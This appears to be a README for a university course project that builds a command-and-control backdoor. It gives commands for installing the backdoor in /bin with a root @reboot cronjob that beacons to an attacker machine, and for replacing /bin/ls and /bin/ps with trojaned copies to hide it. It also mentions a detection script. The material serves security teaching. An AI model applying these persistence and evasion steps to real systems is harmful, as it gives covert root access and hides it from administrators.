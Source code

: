 # C S 378 - Command and Control Project (Donald and Vincent)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker machine. Can also set which port number the attacker machine will use to listen.

### Creating executables (IMPORTANT)

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

This must be done for the configured IP to work.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands as root on the week 4 machine:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up Detection Evasion

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine in the **_/bin_** directory.

Update **_ls_custom_** permissions by running: **_chmod 755 /bin/ls_custom_**

If not already created, run ***mkdir /bin/orig*** to create a directory named **_orig_** in the **_/bin_** directory.

Run **_mv /bin/ls /bin/orig_** to place the original **_ls_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Run ***mv ls_custom ls*** to rename the ***ls_custom*** file to **_ls_**


#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Run ***chmod 755 fake_ps*** to set permissions.

If not already created, run ***mkdir /bin/orig*** to create a directory named **_orig_** in the **_/bin_** directory.

Run **_mv /bin/ps /bin/orig_** to place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Run ***mv fake_ps ps*** to rename the ***fake_ps*** file to **_ps_**

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and we are initially placed in root's directory

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py file_to_check_**. The argument is to specify the name of the file you want to check for the malicious string **_backdoor_**, which in this case is **_/bin/ls_** and **_/bin/ps_**.